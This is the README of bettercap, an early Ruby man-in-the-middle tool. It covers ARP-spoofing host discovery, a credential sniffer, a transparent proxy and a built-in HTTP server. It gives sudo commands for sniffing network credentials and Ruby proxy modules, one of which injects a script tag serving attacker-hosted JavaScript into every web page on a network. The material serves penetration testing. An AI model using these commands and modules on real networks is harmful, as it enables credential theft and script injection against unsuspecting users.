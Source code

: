![logo](http://www.bettercap.org/images/logo_dark.png)

Copyleft of Simone '[evilsocket](https://twitter.com/evilsocket)' Margaritelli*.  

http://www.bettercap.org/

[![Gem Version](https://badge.fury.io/rb/bettercap.svg)](http://badge.fury.io/rb/bettercap) 
---

**bettercap** is a complete, modular, portable and easily extensible **MITM** tool and framework with every kind of diagnostic
and offensive feature you could need in order to perform a man in the middle attack.

MOTIVATIONS
===

> Yet another MITM tool? C'mon, really?!!?

This is exactly what you are thinking right now, isn't it? :D
But allow yourself to think about it for 5 more minutes ... what you should be really asking is:

> Does a complete, modular, portable and easy to extend MITM tool actually exist?

If your answer is "ettercap", let me tell you something:

* ettercap **was** a great tool, but it made its time.
* ettercap filters **do not** work most of the times, are outdated and hard to implement due to the specific language they're implemented in.
* ettercap is freaking **unstable** on big networks ... try to launch the host discovery on a bigger network rather than the usual /24 ;)
* yeah you can see connections and raw pcap stuff, **nice toy**, but **as a professional researcher I want to see only relevant stuff**.
* unless you're a C/C++ developer, you can't easily extend ettercap or make your own module.

Indeed you could use more than just one tool ... maybe [arpspoof](http://linux.die.net/man/8/arpspoof) to perform the actual poisoning, [mitmproxy](http://mitmproxy.org) to intercept HTTP stuff and inject your payloads and so forth ... I don't know about you, but I **hate** when I need to use a dozen of tools just to perform one single attack, especially when I need to do some black magic in order to make all of them work on my distro or on OSX ... what about the [KISS](https://en.wikipedia.org/wiki/KISS_principle) principle?

So **bettercap** was born ( isn't the name pure genius? XD ) ...

HOST DISCOVERY + ARP MAN IN THE MIDDLE
=== 

You can target the whole network or a single known address, it doesn't really matter, bettercap arp spoofing capabilities and its multiple hosts discovery agents will do the dirty work for you.  
Just launch the tool and wait for it to do its job ... again, [KISS!](https://en.wikipedia.org/wiki/KISS_principle)

![credentials](http://bettercap.org/images/discovery.png)

CREDENTIALS SNIFFER
===

The built in sniffer is currently able to dissect and print from the network the following informations:

- URLs being visited.
- HTTPS host being visited.
- HTTP POSTed data.
- HTTP Basic and Digest authentications.
- FTP credentials.
- IRC credentials.
- POP, IMAP and SMTP credentials.
- NTLMv1/v2 ( HTTP, SMB, LDAP, etc ) credentials.

![credentials](http://bettercap.org/images/credentials.png)

**Examples**

Default sniffer mode, all parsers enabled:
    
    sudo bettercap -X
    
Enable sniffer and load only specified parsers:
    
    sudo bettercap -X -P "FTP,HTTPAUTH,MAIL,NTLMSS"

Enable sniffer + all parsers and parse local traffic as well:
    
    sudo bettercap -X -L
    
MODULAR TRANSPARENT PROXY
===

A modular transparent proxy can be started with the --proxy argument, by default it won't do anything 
but logging HTTP requests, but if you specify a **--proxy-module** argument you will be able to load
your own modules and manipulate HTTP traffic as you like.  
You can find some example modules in the [dedicated repository](https://github.com/evilsocket/bettercap-proxy-modules).

![credentials](http://bettercap.org/images/proxy.png)

**Examples**

Enable proxy on default ( 8080 ) port with no modules ( quite useless ): 
    
    sudo bettercap --proxy

Enable proxy and use a custom port:
    
    sudo bettercap --proxy --proxy-port=8081
    
Enable proxy and load the module **hack_title.rb**:
    
    sudo bettercap --proxy --proxy-module=hack_title.rb

Disable spoofer and enable proxy ( stand alone proxy mode ):

    sudo bettercap -S NONE --proxy

**Modules**

You can easily implement a module to inject data into pages or just inspect the
requests/responses creating a ruby file and passing it to bettercap with the --proxy-module argument, 
the following is a sample module that injects some contents into the title tag of each html page.

```ruby
class HackTitle < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Hacking http://#{request.host}#{request.url} title tag"
      # make sure to use sub! or gsub! to update the instance
      response.body.sub!( '<title>', '<title> !!! HACKED !!! ' )
    end
  end
end
```

BUILTIN HTTP SERVER
===

You want to serve your custom javascript files on the network? Maybe you wanna inject some custom
script or image into HTTP responses using a transparent proxy module but you got no public server
to use? **no worries dude** :D  
A builtin HTTP server comes with bettercap, allowing you to serve custom contents from your own
machine without installing and configuring other softwares such as Apache, nginx or lighttpd. 

You could use a **proxy module** like the following:

```ruby
class InjectJS < Proxy::Module
  def on_request( request, response )
    # is it a html page?
    if response.content_type == 'text/html'
      Logger.info "Injecting javascript file into http://#{request.host}#{request.url} page"
      # get the local interface address and HTTPD port
      localaddr = Context.get.iface[:ip_saddr]
      localport = Context.get.options[:httpd_port]
      # inject the js
      response.body.sub!( '</title>', "</title><script src='http://#{localaddr}:#{localport}/file.js' type='text/javascript'></script>" )
    end
  end
end
```

And then use it to inject the js file in every HTTP response of the network, using bettercap itself
to serve the file:

    sudo bettercap --httpd --http-path=/path/to/your/js/file/ --proxy --proxy-module=inject.rb 

HOW TO INSTALL
===

**Stable Release ( GEM )**
    
    gem install bettercap
    
**From Source**
    
    git clone https://github.com/evilsocket/bettercap
    cd bettercap
    gem build bettercap.gemspec
    sudo gem install bettercap*.gem

DEPENDS
===

All dependencies will be automatically installed through the GEM system, in some case you might need to install some system
dependency in order to make everything work:

    sudo apt-get install ruby-dev libpcap-dev
   
This should solve issues such as [this one](https://github.com/evilsocket/bettercap/issues/22).

